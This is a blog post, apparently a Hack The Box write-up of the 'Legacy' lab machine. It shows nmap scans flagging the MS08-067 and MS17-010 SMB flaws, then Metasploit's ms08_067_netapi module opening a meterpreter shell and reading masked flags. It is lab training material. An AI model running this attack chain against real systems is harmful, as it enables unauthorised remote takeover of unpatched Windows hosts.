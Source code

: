 ```yaml
---                                                                                           
layout: post                                                                                  
title:  "Legacy"                                                                            
date:   2020-02-16 02:49:57 +0000                                                             
categories: HTB-Walkthrough                                                                   
---                           
```


![legacy](/assets/img/legacy.png)

Another beginner's box in HTB is Legacy, lets run nmap and see what we're dealing with...

` nmap -sCV -p- 10.10.10.4 |tee -a legacy.txt `

this scan is a bit like `-A`, it runs all the default nse scripts on the host, and looks for
service information.


```

 Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:01 GMT
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m50s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3e:e1 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-06T12:05:37+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

Ok, lets home in on the discovered ports...

```

root@kali:~/HTB/prep/legacy# nmap -p139,445 -sSV 10.10.10.4 --script=vuln
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:17 GMT
Nmap scan report for 10.10.10.4
Host is up (0.15s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

Looks like this target is vulnerable to the old smb ms08_067_netapi exploit, and also the infamous ms17-010 EternalBlue exploit.
In this instence we're going to try the older netapi one, we'll keep the devistating EternalBlue for another box...

In the msfconsole we can use the `info` command to ...well...get more info!

```

msf5 exploit(windows/smb/ms08_067_netapi) > info

       Name: MS08-067 Microsoft Server Service Relative Path Stack Corruption
     Module: exploit/windows/smb/ms08_067_netapi
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Great
  Disclosed: 2008-10-28

Provided by:
  hdm <x@hdm.io>
  Brett Moore <brett.moore@insomniasec.com>
  frank2 <frank2@dc949.org>
  jduck <jduck@metasploit.com>

<--snip-->

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOSTS   10.10.10.4       yes       The target address range or CIDR identifier
  RPORT    445              yes       The SMB service port (TCP)
  SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload information:
  Space: 408
  Avoid: 8 characters

Description:
  This module exploits a parsing flaw in the path canonicalization 
  code of NetAPI32.dll through the Server Service. This module is 
  capable of bypassing NX on some operating systems and service packs. 
  The correct target must be used to prevent the Server Service (along 
  with a dozen others in the same process) from crashing. Windows XP 
  targets seem to handle multiple successful exploitation events, but 
  2003 targets will often crash or hang on subsequent attempts. This 
  is just the first version of this module, full support for NX bypass 
  on 2003, along with other platforms, is still in development.

References:
  https://cvedetails.com/cve/CVE-2008-4250/
  OSVDB (49243)
  https://technet.microsoft.com/en-us/library/security/MS08-067
  http://www.rapid7.com/vulndb/lookup/dcerpc-ms-netapi-netpathcanonicalize-dos


```

Use the default payload with this one, no need to use the `set payload` command.
triggering the `exploit` gives us a meterpreter shell.

```

meterpreter > ipconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface 65539
============
Name         : AMD PCNET Family PCI Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC : 00:50:56:b9:3e:e1
MTU          : 1500
IPv4 Address : 10.10.10.4
IPv4 Netmask : 255.255.255.0

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > cat root.txt
# 99xxxxxxxxxxxxxxxxxxxxxxxxx3

```

This exploit is impressive, we already have elevated privilages, and can access both the user and Administrator(root) flags.

```

meterpreter > dir
Listing: C:\Documents and Settings\john\desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 06:19:49 +0000  user.txt

meterpreter > cat user.txt
# exxxxxxxxxxxxxxxxxxxxxxxxxf

```

1. scan Target
2. identify vulnerabilities
3. execute exploit to gain access and/or system/root privilages.
4. get flags


###################################
